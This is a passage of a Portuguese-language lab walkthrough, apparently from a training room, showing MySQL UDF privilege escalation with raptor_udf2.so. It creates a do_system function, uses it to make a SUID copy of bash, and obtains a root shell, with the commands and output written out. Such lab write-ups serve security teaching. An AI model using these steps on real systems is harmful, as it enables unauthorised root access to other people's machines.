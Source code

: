 ```bash
mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)
```

Onde temos:

- `create table foo(line blob);` **->** *Cria uma tabela chamada `foo` com uma coluna chamada `line` do tipo `blob`.*
  
- `insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));` **->** *Insere o conteúdo do arquivo `raptor_udf2.so` na tabela `foo`.*
  
- `select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';` **->** *Exporta o conteúdo da tabela `foo` para o arquivo `/usr/lib/mysql/plugin/raptor_udf2.so`.*
  
- `create function do_system returns integer soname 'raptor_udf2.so';` **->** *Cria uma função chamada `do_system` que retorna um inteiro e carrega o arquivo `/usr/lib/mysql/plugin/raptor_udf2.so`.*

Vamos agora usar a função `do_system` para copiar /bin/bash para /tmp/rootbash e definir a permissão SUID:

```bash
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                                0 |
+------------------------------------------------------------------+
1 row in set (0.01 sec)
```

<div class="page"/>

Por fim vamos sair do serviço MySQL e executar o `/tmp/rootbash` com o parâmetro `-p` para obter uma shell como root.

```bash
mysql> exit
Bye
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# whoami
root
```

O laboratório pede que para remover o executável /tmp/rootbash e sair do shell root antes de continuar, pois nós criaremos esse arquivo novamente mais tarde na sala.

então vamos remover o arquivo e sair do shell root.

```bash
rootbash-4.1# rm /tmp/rootbash
rootbash-4.1# exit
exit
user@debian:~/tools/mysql-udf$
```

Agora basta clicar `Completed` para finalizar esse passo.

---